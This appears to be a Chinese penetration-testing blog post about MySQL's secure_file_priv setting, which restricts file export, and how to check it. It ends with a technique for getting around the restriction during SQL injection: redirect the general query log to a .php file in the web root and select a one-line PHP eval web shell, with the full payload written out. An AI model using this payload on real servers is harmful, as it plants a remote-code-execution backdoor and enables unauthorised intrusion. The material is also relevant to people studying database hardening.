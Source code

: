 ```yaml
---
title: MYSQL新特性限制文件写入及替代方法
date: 2018-08-17 10:00:04
tags:
	- Mysql
	- 渗透测试
categories: 渗透测试
keywords:
description:
---
```

高版本的MYSQL添加了一个新的特性secure_file_priv，该选项限制了mysql导出文件的权限<!-- more -->

## secure_file_priv选项

```
secure_file_priv 

　　1、限制mysqld 不允许导入 | 导出
　   　   --secure_file_prive=null

　　2、限制mysqld 的导入 | 导出 只能发生在/tmp/目录下
　　　   --secure_file_priv=/tmp/

　　3、不对mysqld 的导入 | 导出做限制
              --secure_file_priv= 

linux
cat /etc/my.cnf
　　　　[mysqld]
　　　　secure_file_priv= 

win
    my.ini
       [mysqld]
 　　　　secure_file_priv=
```
## 查看secure_file_priv

```
show global variables like '%secure%';
```

## 高权限注入遇到secure_file_priv
在mysql高版本的配置文件中默认没有secure_file_priv这个选项，但是你用SQL语句来查看secure_file_priv发现，没配置这个选项就是NULL，也就是说无法导出文件。

![](http://p3ek8hcdl.bkt.clouddn.com/image/sql/sql034.png)

替代方法：

```
set global general_log=on;set global general_log_file='D://www//zzb.php';select '<?php eval($_POST[zzb]) ?>';
```
